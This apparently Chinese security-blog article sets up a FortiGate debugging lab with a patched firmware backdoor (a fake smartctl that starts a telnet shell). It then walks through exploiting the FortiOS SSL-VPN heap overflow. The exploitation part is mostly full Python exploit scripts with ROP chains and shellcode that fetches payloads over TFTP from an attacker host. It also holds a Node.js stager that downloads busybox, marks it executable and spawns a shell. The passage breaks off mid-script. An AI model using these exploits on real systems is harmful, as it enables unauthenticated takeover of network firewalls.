# 飞塔防火墙漏洞深度利用及调试环境搭建-先知社区

> **来源**: https://xz.aliyun.com/news/18116  
> **文章ID**: 18116

---

## 环境搭建

通过官方下载附件，导入forigate-vm


### 飞塔激活

可以参考下面师傅给出的脚本进行激活

[rrrrrrri/fgt-gadgets: Fortigate related tools](https://github.com/rrrrrrri/fgt-gadgets)

### 网卡ip配置：

然后设置第一个网卡为Nat模式

```
config system interface
edit port1
set mode static
set ip 192.168.111.98 255.255.255.0
set allowaccess http https ping ssh telnet
end
```



### 配置网卡

```
config router static
edit 1
set device port1
set gateway 192.168.111.2
end
```

配置好之后就可以访问了



### **配置 sslvpn**

我们需要开启sslvpn的功能，需要对防火墙进行以下配置

SSLVPN\_address subnet\_addres ubuntu22



再创建一个新的用户



修改 vpn 门户，并进入 full-access 修改界面 VPN —–> SSL-VPN-Portals—-> full-access



进入vpn中修改设置如下：


接着修改防火墙配置策略



然后就可以访问4433端口


### 调试环境搭建 gdbserver+gdb

#### **提取固件**

1、安装libguestfs  
libguestfs 是一组 Linux 下的 C 语言的 API ，用来访问虚拟机的磁盘映像文件，几乎可访问任意类型的文件系统。

```
sudo apt install libguestfs-tools
```

2、查看磁盘分区情况

```
sudo virt-filesystems -a fortigate7.2.2-disk1
```



3、挂载

```
sudo guestmount -a fortigate_7.2.2-disk1.vmdk -m /dev/sda1 --ro fortios_mount
```

这里踩雷了 不建议用这种方式挂载 建议在vmware上进行挂载 用上面这种方式可能导致你覆盖文件的时候覆盖的是缓存



4、挂载成功后，rootfs.gz为文件系统压缩包，我们将其复制出来



复制出来后赋权解压

```
sudo cp roofts.gz ../fritios
cd ..
chmod 777 rootfs.gz
gzip -d rootfs.gz
sudo cpio -idmv < ./rootfs
sudo chroot . /sbin/xz --check=sha256 -d /bin.tar.xz
sudo chroot . /sbin/ftar -xf /bin.tar
```



#### gdb

准备一个busybox 提供完成的sh指令，fgt自带的sh缺少很多指令

这里容易编译失败 建议多换几个版本试试

配置busybox

```
wget  https://git.busybox.net/busybox/snapshot/busybox-1_36_1.tar.bz2
tar -xjvf busybox-1_36_1.tar.bz2
sudo apt-get install libncurses5-dev 
make menuconfig

make -j6
```

开始编译遇到的报错是这样



查了下是tc这部分的问题 但奇怪的是我有导入头文件 于是我就把这部分用make menuconfig中去掉了 Networking Utilities 中tc 然后在编译

```
sudo cp ../busybox ./bin
sudo chmod +x ./bin/busybox

cd bin
sudo rm -rf sh
ln -s /bin/busybox sh
mv sh ./bin/sh
```

配置gdbserver

```
sudo cp ../gdbserver-7.10.1-x64 ./bin
sudo chmod +x ./bin/gdbserver-7.10.1-x64
```

在命令行中执行 `diagnose hardware smartctl` 系统会执行 /bin/smartctl 程序；  
可以自己重新写个smartctl放进去、复用22端口为sh

```
#include<stdio.h>
void shell(){
    system("/bin/busybox ls",0,0);	//执行ls
    system("/bin/busybox id",0,0);	//执行id
    system("/bin/busybox kill all sshd && /bin/busybox telnetd -l /bin/sh -b 0.0.0.0 -p 22",0,0);		//停止所有sshd进程，telnet挂载sh到22端口、此时sh是指busybox
    return;
}

int main(int argc, char const *argv[]){
    shell();
    return 0;
}
```

gcc编译后 放入bin中

```
gcc smartctl.c -static -o smartctl
sudo cp ../smartctl ./bin
sudo chmod +x ./bin/smartctl
```

反编译内核文件flatkc

```
void __fastcall __noreturn init_post_isra_0(__int64 a1, void **a2)
{
  char v2; // al
  __int64 v3; // rax
  int v4; // edx
  int v5; // ecx
  int v6; // r8d
  int v7; // r9d
  char v8; // [rsp-8h] [rbp-8h]

  v8 = v2;
  async_synchronize_full(a1, a2);
  free_initmem();
  dword_FFFFFFFF80A19880 = 1;
  numa_default_policy();
  v3 = *(_QWORD *)(__readgsqword(0xB700u) + 1048);
  *(_DWORD *)(v3 + 92) |= 0x40u;
  if ( !(unsigned int)fgt_verify() )//校验函数
  {
    off_FFFFFFFF809B82C0 = "/sbin/init";
    a2 = &off_FFFFFFFF809B82C0;
    kernel_execve("/sbin/init", &off_FFFFFFFF809B82C0, off_FFFFFFFF809B81A0);
  }
  panic(
    (unsigned int)"No init found.  Try passing init= option to kernel. See Linux Documentation/init.txt for guidance.",
    (_DWORD)a2,
    v4,
    v5,
    v6,
    v7,
    v8);
}

```

在代码中我们可以看到启动的是init文件 因此我们可以patch init文件

我们把/bin/init的文件这部分patch 只要涉及到do\_halt函数 call的全部patch掉

所有这些做完后 就可以重打包了

```
#压缩/bin文件
sudo chroot . /sbin/ftar -cf bin.tar bin
sudo chroot . /sbin/xz --check=sha256 -e bin.tar
#这里记得把/bin文件移出当前目录
sudo find ./ | cpio -H newc -o > ../rootfs.raw
cd ../
sudo cat ./rootfs.raw | gzip > rootfs.gz
# 进入硬盘目录
sudo rm ./rootfs.gz
sudo cp ~/Desktop/rootfs.gz ./
```

然后提权 把roofts.gz覆盖原来的就可以了

接下来 我们把flatkc 提取出来 这是内核文件 我们把内核转化为二进制文件 进行分析 和 调试

```
sudo apt install python3-pip liblzo2-dev
sudo pip3 install --upgrade lz4 zstandard git+https://github.com/clubby789/python-lzo@b4e39df
sudo pip3 install --upgrade git+https://github.com/marin-m/vmlinux-to-elf
```

踩的坑 我开始安装的时候 出现了这个报错



我的解决办法是 手动安装

你可以手动克隆 `python-lzo` 库到本地，然后再进行安装：

```
bashgit clone https://github.com/clubby789/python-lzo
cd python-lzo
git checkout b4e39df
sudo pip3 install .
```

然后在执行后面的就没问题了



然后就可以启动飞塔进行调试了 启动后 飞塔如果一直在重启状态就说明我们覆盖成功了 这是因为飞塔一直过不了身份验证

也就是这个位置



我们就直接断点到这个位置：





发现断的不是我们的断点 这里的原因暂不清楚 但是解决办法就是，无论如何别按那个绿色箭头，你只需要理解 你一直c 它是会一直重启的 它重启就会反复执行start\_kernel这个流程，那么 你可以尝试先往最开始的点 断 然后一点一点的接近你要断的点



先断在这里 再断在我们开始要断的位置就可以了



过了这里 ni 然后 set $rax=0 再c就可以进去了



然后测试一下后门



成功拿到shell

## 漏洞深度利用

> A heap-based buffer overflow vulnerability [CWE-122] in FortiOS SSL-VPN 7.2.0 through 7.2.2, 7.0.0 through 7.0.8, 6.4.0 through 6.4.10, 6.2.0 through 6.2.11, 6.0.15 and earlier and FortiProxy SSL-VPN 7.2.0 through 7.2.1, 7.0.7 and earlier may allow a remote unauthenticated attacker to execute arbitrary code or commands via specifically crafted requests.

在 FortiOS SSL-VPN 7.2.0 至 7.2.2、7.0.0 至 7.0.8、6.4.0 至 6.4.10、6.2.0 至 6.2.11、6.0.15 及更早版本，以及 FortiProxy SSL-VPN 7.2.0 至 7.2.1、7.0.7 及更早版本中，存在一个基于堆的缓冲区溢出漏洞 [CWE-122]。该漏洞可能允许远程未经身份验证的攻击者通过特制的请求执行任意代码或命令。

### 带sh环境下的攻击

```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
#0x000000000257008a push rdx.pop rdi.ret
#0x00000000017ec3b7 : add rdx, 0x28 ; cmp eax, 7 ; jne 0x17ec3b0 ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret
#0x000000000065e899 : pop rax ; sti ; ret
#0x00000000012ce87f : std ; pop rdx ; ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x0000000000509372 : pop rdx ; ret

ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x7)

ROP+=struct.pack('q',0x00000000017ec3b7)
ROP+=struct.pack('q',0x00000000017ec3b7)
ROP+=struct.pack('q',0x00000000017ec3b7)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x000000000046bb27)
ROP+=struct.pack('q',0x58)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x000000000257008c)
ROP+=struct.pack('q',0x00000000043EC10)
ROP+=b'a'*8+b"/bin/busybox telnetd -l /bin/sh -b 0.0.0.0 -p 22"+b"\x00"*8
print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r
Host: " + \
            ip.encode() + b"\r
Content-Length: " + CL.encode() + \
            b"\r
User-Agent: Mozilla/5.0\r
Content-Type: text/plain;charset=UTF-8\r
Accept: */*\r
\r
"+payload
 
        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break
 
```

### real环境下的攻击



这里就不得不提一嘴 system和exec系列函数命令执行的区别了：

1、system()和exec()都可以执行进程外的命令，system是在原进程上开辟了一个新的进程，但是exec是用新进程(命令)覆盖了原有的进程。  
2、system()和exec()都有能产生返回值，system的返回值并不影响原有进程，但是exec的返回值影响了原进程。  
3、system需要先启动一个shell才能运行指定的命令，调用system函数执行指定命令时，原进程会暂停等待，之后再继续进行；调用exec函数开启新进程后，原进程将被直接关闭。

那这里没有/bin/sh 那我们命令执行可以攻击的思路是什么呢？ 我们为什么要这么做呢？

1.我们可以通过命令执行下载编译好的busybox 来达到被阉割的shell现状

2.我们可以直接通过rop上传我们要执行的文件

这里更多的是推荐思路1， 因为文件上传如果文件过大的话 容易导致连接崩溃

```
#include <unistd.h>
int execl(const char *path, const char *arg, ...);
int execlp(const char *file, const char *arg, ...);
int execle(const char *path, const char *arg, ..., char *const envp[]);
int execv(const char *path, char *const argv[]);
int execvp(const char *file, char *const argv[]);
int execve(const char *path, char *const argv[], char *const envp[]);
```

这里就得考虑构造rop，因为exec有两种类型，一个是数组传参，另一个是参数传参，但是从上面的攻击过程也就是system的攻击过程，其实我们是可以发现 gadget是有点不够的，越打的后面越没有好用的gadget ，因为你不能破坏前面布置好的参数，并且我们可以写入的rop链也是有长度限制的，还有一个比较要命的问题，你要下载busybox 到本地 那就得传送ip 而这个字符串是肯定超过了8字节的，这就会导致我们构造参数时会多出不可控的字符串。导致如果考虑 char 列表来调用的话 rop chain 会修改的非常麻烦！！！(这就是数组传参的弊端)

那以上两个思路基本都走死走不通的话，我们就不考虑走rop了，用ctf的思路把rop传化为shellcode就可以实现任意gadget了，但是没有

可执行权限 开了nx保护 这里就想到用mprotect 开一段可执行权限的段，然后前面打system的时候 可以看到 寄存器上是有残余段的地址的，我们只需要通过rop去执行mprotect 然后就可以快乐的写shellcode去命令执行了



攻击构造过程

mprotect所需要的参数(addr,len,prot) 也就是我们要劫持rdi rsi rdx这三个参数 并且调用call mprotect



gdb-peda$ 0x7ff1e109cd78 0x7ff1e0f42000 0x7ff1e11c2000 0x280000 0x0 rw-p

我们写的位置属于这个段

0x7ff1e0f42000- 0x7ff1e109cd78 =FFFF FFFF FFEA 5288

这里是残存的参数rdx

利用gadget如下

```
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
```





然后我们只需要利用jmp rsp跳转就可以执行shellcode了 这里为了方便我们可以直接接着jmp rsp后面写shellcode

### shellcode思路

由于我们这里写入的字节有限大概0xc0长度的样子，如果要写比较麻烦的命令执行 可能不够，这里我的思路是去迁移rip到0x620+8的这个位置 也就是lea rax, [rip + 0x69] 然后就有了基本没有长度限制的shellcode的机会，还有种思路就是构造一个read 但是我这里syscall下去 gdb并没有卡住等待读取，目前不知道什么原因，所以就走思路一了





接下来就可以快乐的写shellcode了 我们需要干的就是：

execl执行：/bin/tftp 192.168.111.160 1.js get octet ./1.js

实际


execl("/bin/tftp", "/bin/tftp", "192.168.111.148", "1.js", "get", "octet", NULL);

execl("/bin/tftp","/bin/tftp","192.168.111.148","1.js","get",octet","NULL")



这里也就是一个个传参，唯一注意的就是 超过八字节的要分两次切割传

最后参数情况



检验：



成功实现攻击 这里监测一下busybox能否上传并正常使用

直接get busybox不指定路径 成功

```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
context.arch = 'amd64'


path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
#0x43A160 execl
def bytes2stack_bytes(bytes):
    stack_str = "0x"
    swap_data = bytearray(bytes)
    swap_data.reverse()
    for i in swap_data:
        t = hex(i)[2:]
        stack_str+=t
    
    return stack_str
shellcode1 = asm('''
    lea rax, [rip + 0x69]
    jmp rax
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    
''')
print(len(shellcode1))
def gen_shellcode_download_file():
    save_path2 = bytes2stack_bytes(b"/cin/bus")
    save_path1 = bytes2stack_bytes(b'ybox')
    arg2 = bytes2stack_bytes(b"octet")
    arg1 = bytes2stack_bytes(b"get")
    filename = bytes2stack_bytes(b"busybox")

    ip_addr2 = bytes2stack_bytes(b"111.160")
    ip_addr1 = bytes2stack_bytes(b"192.168.")
    
    cmd_path2 = bytes2stack_bytes(b"p")
    cmd_path1 = bytes2stack_bytes(b"/bin/tft")
    shellcode = asm('''
      sub rsp,0x1000
      push 0
      mov rbx, {}
      push rbx
      mov r9, rsp
      mov rbx, {}
      push rbx
      mov r8, rsp
      mov rbx, {}
      push rbx
      mov rcx,rsp
      mov rbx, {}
      push rbx
      mov rbx, {}
      push rbx
      mov rdx,rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov rsi,rsp
      mov rdi,rsp
      add rax, 0x70
      mov rsp, rax
      nop
      nop
      nop
      nop
      nop
      nop

      ret
'''.format(arg2,arg1,filename,ip_addr2,ip_addr1,cmd_path2,cmd_path1,save_path1,save_path2))
    print(shellcode)
    print(hex(len(shellcode)))
    return shellcode
ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('Q',0xffffffffffeA5288)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000002a0e0e0)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0x200000)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x000000000043F3D0)
ROP+=struct.pack('q',0x00000000005dc96d)
ROP+=shellcode1
#441A50

print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)+gen_shellcode_download_file()+struct.pack('q',0x43A160)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r
Host: " + \
            ip.encode() + b"\r
Content-Length: " + CL.encode() + \
            b"\r
User-Agent: Mozilla/5.0\r
Content-Type: text/plain;charset=UTF-8\r
Accept: */*\r
\r
"+payload
 
        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break
 
```



企图直接把busybox放到/cin/busybox中 结果测试失败

```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
context.arch = 'amd64'


path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
#0x43A160 execl
def bytes2stack_bytes(bytes):
    stack_str = "0x"
    swap_data = bytearray(bytes)
    swap_data.reverse()
    for i in swap_data:
        t = hex(i)[2:]
        stack_str+=t
    
    return stack_str
shellcode1 = asm('''
    lea rax, [rip + 0x69]
    jmp rax
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    
''')
print(len(shellcode1))
def gen_shellcode_download_file():
    save_path2 = bytes2stack_bytes(b"/cin/bus")
    save_path1 = bytes2stack_bytes(b'ybox')
    arg2 = bytes2stack_bytes(b"octet")
    arg1 = bytes2stack_bytes(b"get")
    filename = bytes2stack_bytes(b"busybox")

    ip_addr2 = bytes2stack_bytes(b"111.160")
    ip_addr1 = bytes2stack_bytes(b"192.168.")
    
    cmd_path2 = bytes2stack_bytes(b"p")
    cmd_path1 = bytes2stack_bytes(b"/bin/tft")
    shellcode = asm('''
      sub rsp,0x1000
      push 0
      mov rbx, {}
      push rbx
      mov r9, rsp
      mov rbx, {}
      push rbx
      mov r8, rsp
      mov rbx, {}
      push rbx
      mov rcx,rsp
      mov rbx, {}
      push rbx
      mov rbx, {}
      push rbx
      mov rdx,rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov rsi,rsp
      mov rdi,rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov r10,rsp
      add rax, 0x90
      mov rsp, rax
      push r10
      sub rsp,8

      ret
'''.format(arg2,arg1,filename,ip_addr2,ip_addr1,cmd_path2,cmd_path1,save_path1,save_path2))
    print(shellcode)
    print(hex(len(shellcode)))
    return shellcode
ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('Q',0xffffffffffeA5288)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000002a0e0e0)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0x200000)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x000000000043F3D0)
ROP+=struct.pack('q',0x00000000005dc96d)
ROP+=shellcode1
#441A50

print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)+gen_shellcode_download_file()+struct.pack('q',0x43A160)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r
Host: " + \
            ip.encode() + b"\r
Content-Length: " + CL.encode() + \
            b"\r
User-Agent: Mozilla/5.0\r
Content-Type: text/plain;charset=UTF-8\r
Accept: */*\r
\r
"+payload
 
        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break
 
```

这上面直接传到指定路径的问题是第七个参数的传递 如果直接push 会覆盖我们写的shellcode导致程序崩溃 暂时未想到好的解决办法

这里执行有两个问题 一没权限 二没指定lib库



这个问题得思考一下怎么解决 在真实环境中直接get一个busybox 好像不够用 因为没有可执行的权限只有读写权限 这里想了很久没想到有什么办法，也用了几个exp尝试赋权 发现要么太麻烦 要么都失败了，最后在ioo0s师傅文章中，学到了思路

### Nodejs shellcode

这位师傅用的是Nodejs shellcode，利用飞塔居然内置的nodejs通过测试发现 nodejs xx.js 是可执行的，并且 nodejs 也存在修改文件权限的函数 这里我们先确定一下nodejs确实存在

通过执行命令或者直接查找发现是没有的 但是通过node\*查找



传一个js文件测试一下



是可以执行的，因此我们思路就十分清晰了

这里搬运一下这位ioo0s师傅的思路

1. 通过之前的命令执行下载 shell.js
2. shell.js 中至少要包含以下功能
3. 一：下载 busybox （比之前的操作简单多了！）
4. 二：给 busybox 执行权限
5. 三：弄一个 busybox 的 shell 软链
6. 四：调用 busybox 中内置的命令 起 shell

还有一种思路就是通过nodejs 去渲染反弹shell的指令 虽然飞塔的shell被阉割的很严重 但是可以用wget 然后 去wget 服务器上的busybox

这里一个一个思路讲吧先复现一下ioo0s师傅的思路

#### 放入js文件用nodejs渲染拉去busybox并且赋权 开ssh环境

js的文件内容

```
const fs = require('fs');
const { execSync } = require('child_process');

const tftpServer = '192.168.111.160';    // ⚠️ 替换为你的 TFTP 服务器 IP
const remoteFile = 'busybox';            // ⚠️ 替换为你的 busybox 文件名
const localPath = '/bin/busybox';
const shellLink = '/bin/sh';

try {
  // 1. 使用正确格式的 tftp 命令
  console.log('[*] 正在通过 TFTP 下载 busybox...');
  execSync(`tftp ${tftpServer} ${remoteFile} get octet ${localPath}`, { stdio: 'inherit' });

  // 2. 赋予执行权限
  console.log('[*] 设置执行权限...');
  fs.chmodSync(localPath, 0o755);

  // 3. 创建软链接
  console.log('[*] 创建 shell 软链...');
  if (fs.existsSync(shellLink)) fs.unlinkSync(shellLink);
  fs.symlinkSync(localPath, shellLink);

  // 4. 启动 busybox 的 shell
  console.log('[*] 启动 busybox shell...');
  execSync(`${shellLink} sh`, { stdio: 'inherit' });

} catch (err) {
  console.error('[!] 执行失败:', err.message);
}
```

busybox可以用自己编译的也可以去wget一个

编译好的busybox地址各个架构都有

[Index of /downloads/binaries/1.21.1](https://busybox.net/downloads/binaries/1.21.1/)

上传busy.js文件 POC

```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
context.arch = 'amd64'


path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
#0x43A160 execl
def bytes2stack_bytes(bytes):
    stack_str = "0x"
    swap_data = bytearray(bytes)
    swap_data.reverse()
    for i in swap_data:
        t = hex(i)[2:]
        stack_str+=t
    
    return stack_str
shellcode1 = asm('''
    lea rax, [rip + 0x69]
    jmp rax
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    
''')
print(len(shellcode1))
def gen_shellcode_download_file():
    save_path2 = bytes2stack_bytes(b"/cin/bus")
    save_path1 = bytes2stack_bytes(b'ybox')
    arg2 = bytes2stack_bytes(b"octet")
    arg1 = bytes2stack_bytes(b"get")
    filename = bytes2stack_bytes(b"busy.js")

    ip_addr2 = bytes2stack_bytes(b"111.160")
    ip_addr1 = bytes2stack_bytes(b"192.168.")
    
    cmd_path2 = bytes2stack_bytes(b"p")
    cmd_path1 = bytes2stack_bytes(b"/bin/tft")
    shellcode = asm('''
      sub rsp,0x1000
      push 0
      mov rbx, {}
      push rbx
      mov r9, rsp
      mov rbx, {}
      push rbx
      mov r8, rsp
      mov rbx, {}
      push rbx
      mov rcx,rsp
      mov rbx, {}
      push rbx
      mov rbx, {}
      push rbx
      mov rdx,rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov rsi,rsp
      mov rdi,rsp
      add rax, 0x70
      mov rsp, rax
      nop
      nop
      nop
      nop
      nop
      nop

      ret
'''.format(arg2,arg1,filename,ip_addr2,ip_addr1,cmd_path2,cmd_path1,save_path1,save_path2))
    print(shellcode)
    print(hex(len(shellcode)))
    return shellcode
ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('Q',0xffffffffffeA5288)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000002a0e0e0)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0x200000)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x000000000043F3D0)
ROP+=struct.pack('q',0x00000000005dc96d)
ROP+=shellcode1
#441A50

print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)+gen_shellcode_download_file()+struct.pack('q',0x43A160)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r
Host: " + \
            ip.encode() + b"\r
Content-Length: " + CL.encode() + \
            b"\r
User-Agent: Mozilla/5.0\r
Content-Type: text/plain;charset=UTF-8\r
Accept: */*\r
\r
"+payload
 
        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break

```

命令执行 /bin/node busy.js

这里我用的是execve去执行

```
char *argv[] = { "/bin/node", "/busy.js", NULL };
char *envp[] = { "PATH=/usr/bin", "HOME=/root", NULL };

execve("/bin/node", argv, envp);
```

可以先写个demo测试，这里要注意的是写shellcode的时候 argv 和 envp分别指的是数组，也就是要把rsi rdx指向构造好的地址



rsi指向的是0x7ff1eaec7d80对应下面

```
0x7ff1eaec7db8: "/bin/node"
0x7ff1eaec7dc0: "/busy.js"
null 
```

类似这种，然后我们这里打exp去执行之前的busy.js指令 在飞塔或者原界面都是没有输出的



可以看到没有任何回显 但就是执行成功了 成功放入busybox，这里没有放入bin的原因是因为没有权限所以放入tmp文件夹中

命令执行exp

```
import socket
import ssl
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
context.arch = 'amd64'


path = "/remote/login".encode()
content_length = ["115964116992"]
ip = "192.168.111.148"
#1376
#0x000000000257008a push rdx,pop rdi.ret
#0x0000000000530c8e : pop rsi ; ret
#0x000000000046bb27 : pop rax ; ret
#0x000000000060e7e9 : pop rax ; pop rsi ; ret 绕过最开始那个1无法写入的限制
#0x000000000043F3D0 call mprotect 
#0x0000000000509372 : pop rdx ; ret
#0x0000000002a0e0e0 : add rdx, rax ; mov eax, edx ; sub eax, edi ; ret
#0x00000000005dc96d jmp rsp
#0x43A160 execl
def bytes2stack_bytes(bytes):
    stack_str = "0x"
    swap_data = bytearray(bytes)
    swap_data.reverse()
    for i in swap_data:
        t = hex(i)[2:]
        stack_str+=t
    
    return stack_str
shellcode1 = asm('''
    lea rax, [rip + 0x69]
    jmp rax
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    
''')
print(len(shellcode1))
def gen_shellcode_download_file():
    save_path2 = bytes2stack_bytes(b"/cin/bus")
    save_path1 = bytes2stack_bytes(b'ybox')
    arg2 = bytes2stack_bytes(b"/bin/nod")
    arg1 = bytes2stack_bytes(b"e"+b'\x00'*7)
    filename = bytes2stack_bytes(b"busy.js")

    ip_addr2 = bytes2stack_bytes(b"111.160")
    ip_addr1 = bytes2stack_bytes(b"192.168.")
    
    cmd_path2 = bytes2stack_bytes(b"p")
    cmd_path1 = bytes2stack_bytes(b"/bin/tft")
    arg3=bytes2stack_bytes(b'node')
    arg4=bytes2stack_bytes(b'/busy.js')
    arg5=bytes2stack_bytes(b'0')
    shellcode = asm('''
      sub rsp,0x1000
      push 0
      mov rbx, {}
      push rbx
      mov rbx, {}
      push rbx
      mov rdi, rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov rsi,rsp
      sub rsp,0x8
      mov rbx,{}
      push rbx
      mov rdx,rsp
      mov rbx,0
      push rbx
      mov rcx,rsp
      push rdx
      push rdi
      
      mov rsi,rsp
      sub rsp,0x100
      push rcx
      mov rdx,rsp
      add rax,0x70
      mov rsp,rax

      nop
      nop
      nop
      nop
      nop
      nop
      ret
'''.format(arg1,arg2,arg1,arg2,arg4))
    print(shellcode)
    print(hex(len(shellcode)))
    return shellcode
ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('Q',0xffffffffffeA5288)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000002a0e0e0)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0x200000)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x000000000043F3D0)
ROP+=struct.pack('q',0x00000000005dc96d)
ROP+=shellcode1
#441A50

print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)+gen_shellcode_download_file()+struct.pack('q',0x0442EC0)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r
Host: " + \
            ip.encode() + b"\r
Content-Length: " + CL.encode() + \
            b"\r
User-Agent: Mozilla/5.0\r
Content-Type: text/plain;charset=UTF-8\r
